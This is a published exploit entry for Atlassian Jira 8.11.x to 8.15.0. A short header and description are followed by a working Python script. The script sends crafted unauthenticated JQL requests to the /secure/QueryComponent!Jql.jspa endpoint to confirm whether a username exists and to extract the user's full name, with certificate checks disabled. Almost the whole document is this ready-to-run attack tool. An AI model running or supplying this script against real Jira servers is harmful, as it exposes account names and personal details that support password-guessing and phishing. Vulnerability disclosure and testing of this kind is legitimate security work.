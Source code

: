 EXP
---

    # Exploit Title: Atlassian Jira 8.15.0 - Information Disclosure (Username Enumeration)
    # Date: 31/05/2021
    # Exploit Author: Mohammed Aloraimi
    # Vendor Homepage: https://www.atlassian.com/
    # Software Link: https://www.atlassian.com/software/jira
    # Vulnerable versions: version 8.11.x to 8.15.0
    # Tested on: Kali Linux
    # Proof Of Concept:

    '''
    A username information disclosure vulnerability exists in Atlassian JIRA from versions 8.11.x to 8.15.x. Unauthenticated users can ENUMRATE valid users via /secure/QueryComponent!Jql.jspa endpoint.

    Tested versions:

    Atlassian JIRA 8.11.1
    Atlassian JIRA 8.13
    Atlassian JIRA 8.15
    '''

    #!/usr/bin/env python

    __author__  = "Mohammed Aloraimi (@ixSly)"



    import requests
    import sys
    import re
    import urllib3
    urllib3.disable_warnings()


    def help():
        print('python script.py <target> <username>')
        print('e.g. python script.py https://jiratarget.com admin')
        sys.exit()

    if len(sys.argv) < 3:
      help()



    def pwn(url,username):

            try:
                    headers = {"content-type": "application/x-www-form-urlencoded; charset=UTF-8"}
                    data="jql=creator+in+({})&decorator=none".format(username)
                    req = requests.post(url+"/secure/QueryComponent!Jql.jspa",headers=headers,verify=False,data=data)
                    if "issue.field.project" in req.text and req.status_code == 200:
                            print("[+] {} is a Valid User".format(username))
                            userFullName=re.search('value=\"user:{}\" title=\"(.+?)\"'.format(username),str(req.json()["values"]["creator"]).strip())
                            if userFullName:
                                    print("[+] User FullName: " + userFullName.group(1))
                    elif '["jqlTooComplex"]' in req.text and req.status_code == 401:
                            print("[-] {} is not a Valid User".format(username))
                    else:
                            print("[-] Error..")
            except Exception as e:
                    print(str(e))
                    pass

    server = sys.argv[1]
    username = sys.argv[2]


    pwn(server,username)